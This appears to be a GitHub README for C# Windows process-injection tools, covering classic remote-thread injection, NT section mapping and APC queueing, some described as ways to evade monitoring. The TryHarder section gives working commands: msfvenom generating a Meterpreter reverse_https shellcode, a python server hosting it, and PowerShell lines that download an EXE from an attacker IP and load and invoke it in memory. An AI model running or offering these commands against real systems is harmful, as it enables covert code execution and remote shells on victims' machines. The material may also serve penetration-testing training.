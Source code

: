 ## **NativeProcInjection.cs**

This technique demonstrates classic process injection using Native Windows API functions. It creates a remote process (usually `notepad.exe`), allocates memory in it, writes shellcode, and creates a remote thread to execute the payload.

**High-Level Steps:**
1. Launch a target process in suspended or running state (e.g., `CreateProcess`).
2. Allocate memory in the remote process using `VirtualAllocEx`.
3. Write the shellcode to the allocated memory using `WriteProcessMemory`.
4. Create a new thread in the remote process pointing to the shellcode with `CreateRemoteThread`.

---

## **NtMapInjection.cs**

This method utilizes NT native APIs to create a shared memory section and map it into both the local and remote process. It’s stealthier than the classic method and avoids using easily-monitored APIs like `WriteProcessMemory`.

**High-Level Steps:**
1. Create a memory section using `NtCreateSection`.
2. Map the section into the local process using `NtMapViewOfSection`.
3. Copy the shellcode into the local view.
4. Map the same section into the remote process using `NtMapViewOfSection`.
5. Create a remote thread in the target process with `CreateRemoteThread` or equivalent to execute the code.

---

## **NtQueueApc.cs**

This method uses Asynchronous Procedure Calls (APCs) to queue execution of shellcode in the context of a thread in a remote process. It is often used in combination with other techniques to delay execution or avoid detection.

**High-Level Steps:**
1. Open a handle to the target process and a thread within it.
2. Allocate memory in the target process and write the shellcode using `VirtualAllocEx` and `WriteProcessMemory`.
3. Use `NtQueueApcThread` to queue a call to the shellcode in the remote thread.
4. Resume the thread if it's suspended, so the APC can be delivered and executed.

## **TryHarder.cs**

Another Process Injection technique that loads the shellcode remotely.<br>
The idea of this technique is by `Sektor 7` and ported to C# by [saulgoodman](https://github.com/saulg00dmin).

Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
